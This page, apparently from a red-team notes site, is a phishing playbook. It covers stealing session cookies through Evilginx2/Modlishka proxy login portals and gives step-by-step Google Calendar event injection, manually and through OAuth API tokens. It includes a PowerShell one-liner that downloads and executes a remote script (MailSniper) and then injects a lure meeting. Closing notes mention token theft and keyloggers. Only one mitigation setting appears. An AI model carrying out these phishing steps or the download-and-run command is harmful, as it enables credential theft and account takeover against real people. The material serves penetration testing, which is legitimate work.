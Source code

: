 ```yaml
---
### The title for the content.
title : "phising"
### If set, this will be used for the page's menu entry (instead of the `title` attribute)
# menuTitle : "sql injection"
### The title of the page in menu will be prefixed by this HTML content
# pre : ""
### The title of the page in menu will be postfixed by this HTML content
# post : ""
### The description for the content.
description : "phising."
### The datetime assigned to this page.
date : 2020-03-10T16:43:45+01:00
### Appears as the tail of the output URL. A value specified in front matter will override the segment of the URL based on the filename.
# slug : "sql-injection"
### Aliases can be used to create redirects to your page from other URLs.
# aliases : [""]
### Display name of this page modifier. If set, it will be displayed in the footer.
# LastModifierDisplayName : ""
### Email of this page modifier. If set with LastModifierDisplayName, it will be displayed in the footer
# LastModifierEmail : ""
### Table of content (toc) is enabled by default. Set this parameter to true to disable it.
# disableToc : true
### Set the page as a chapter, changing the way it's displayed
# chapter : true
### Hide a menu entry by setting this to true
# hidden : true
### If true, the content will not be rendered unless the --buildDrafts flag is passed to the hugo command.
# draft : true
### Used for ordering your content in lists. Lower weight gets higher precedence. So content with lower weight will come first.
### 0 does nothing !
weight : 0
### Used to tag content. By default this is inherited using cascading from _index.md files
### Only set of you want to overwrite these inherited values.
tags : ["Phising"]
---
```


## Phising

### Session Hijack

Steal creds and/or session cookies. Can be useful when client has good prevention against shells.

Email a link to a target employee pointing to a cloned/proxied auth portal (Microsoft Online(O365, Azure), G-suite. AWS Console).
When they auth they get a real session cookies, and so do we.

Tools: [Evilginx2](https://github.com/kgretzky/evilginx2), [Modlishka](https://github.com/drk1wi/Modlishka) # MOVE TO OWN TOOL PAGE

When we get session we need to act fast and setup persistence.

### G-suite

G-Suite allowed for Calendar Event Injection. This allows a attacker to silently (without the need for a e-mail by using the API) inject a calendar entry to the users calender. This bypasses the "Don't auto-add" options. Doing something like this will create urgency with a reminder notification.

#### Manual

This can be prevented by setting 'Event settings -> Automatically add invitations' to 'No, only show invitations to which I have responded.'

1. Create a new gmail account with a convincing name
2. Prepair your payload of choice and make it available externally (for example with pwndrop)
3. Open `https://calendar.google.com/calendar/` while logged into your new account.
4. Create a new calendar event, make sure to set a reminder.  
![Calendar Event Injection](images/g-suite-cal-injection01.png)  
5. Ensure you click do not send.  
![Calendar Event Injection](images/g-suite-cal-injection02.png)  
6. The user will recieve a notification when the 'meeting' is supposed to happen.  
![Calendar Event Injection](images/g-suite-cal-injection03.png)  

![Calendar Event Injection](images/g-suite-cal-injection04.png)  

##### API

1. logon into the account you want to inject as  
2. open `https://console.developers.google.com/flows/enableapi?apiid=calendar&pli=1`  
3. Select Project and agree the ToS    
![Calendar Event Injection](images/g-suite-cal-injection_api_01.png)  
4. On the "Add credentials to your project" page click cancel.  
5. At the top of the page, select the "OAuth consent screen" tab. Select an Email address, enter a Product name if not already set, and click the Save button.    
![Calendar Event Injection](images/g-suite-cal-injection_api_02.png)  
6. Select the Credentials tab, click the Create credentials button and select OAuth client ID.    
![Calendar Event Injection](images/g-suite-cal-injection_api_03.png)  
7. Select the application type Web application, under "Authorized redirect URIs" paste in the following address: `https://developers.google.com/oauthplayground`. Then, click the Create button.  
![Calendar Event Injection](images/g-suite-cal-injection_api_04.png)  
8. Copy your "Client ID" and "Client Secret".  
9. Navigate here: `https://developers.google.com/oauthplayground/`.  
10. Click the "gear icon" in the upper right corner and check the box to "Use your own OAuth credentials". Enter the OAuth2 client ID and OAuth2 client secret in the boxes.  
11. Make sure that "OAuth flow" is set to Server-side, and "Access Type" is set to offline.  
![Calendar Event Injection](images/g-suite-cal-injection_api_05.png)  
12. Select the "Calendar API v3" dropdown and click both URLs to add them to scope. Click Authorize APIs.  
![Calendar Event Injection](images/g-suite-cal-injection_api_06.png)  
13. Select the account you want to authorize, then click Allow.  
![Calendar Event Injection](images/g-suite-cal-injection_api_07.png)  
(If there is an error such as "Error: redirect_uri_mismatch" then it’s possible the changes haven’t propagated yet. Just wait a few minutes, hit the back button and try to authorize again.).  
![Calendar Event Injection](images/g-suite-cal-injection_api_07-2.png)  
14. You should now be at "Step 2: Exchange authorization code for tokens." Click the "Exchange authorization code for tokens button". The "Access token" is the item we need for accessing the API. Copy the value of the "Access token".  
![Calendar Event Injection](images/g-suite-cal-injection_api_08.png)  
P.S. The "Access token" expires after 3600 seconds.  

```powershell
PS C:\Users\justin-p> iex((iwr https://raw.githubusercontent.com/dafthack/MailSniper/master/MailSniper.ps1).content)
PS C:\Users\justin-p> Invoke-InjectGEventAPI -PrimaryEmail Injector@gmail.com -AccessToken 'TOKEN' -Targets "InjectToMe@gmail.com" -StartDateTime 2020-09-02T15:20:00 -EndDateTime 2020-09-02T15:30:00 -EventTitle "Company Meeting" -EventDescription "Please review the agenda at the URL below prior to the meeting. https://ElRandoUrl" -EventLocation "Zoom app goes Bzzzzzzzz"
```

### Remote Access

Try to comprise workstations. This would (depending on the user) give access to internal and other cloud resources.
Allows us to steal tokens from disk, preform session hijack/riding or start keyloggers.

### Related tools

{{< related_pages_table tag="Phising" >}}